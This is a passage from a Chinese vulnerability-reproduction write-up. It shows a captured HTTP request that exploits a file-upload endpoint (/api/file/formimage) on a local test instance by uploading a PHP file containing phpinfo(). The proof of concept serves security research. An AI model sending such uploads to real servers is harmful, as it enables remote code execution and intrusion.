 一路安装即可

## 漏洞复现

触发点：

[![](assets/1706958957-83e84c2d3bf5c5a87b43db83b2e1822b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126172435-b89bb798-bc2c-1.png)

抓包

```plain
POST /api/file/formimage HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
token: xxxx
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 250
Origin: http://127.0.0.1:8000
Connection: close
Referer: http://127.0.0.1:8000/mobile/pages/bundle/user_profile/user_profile
Cookie: PHPSESSID=xxxx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```
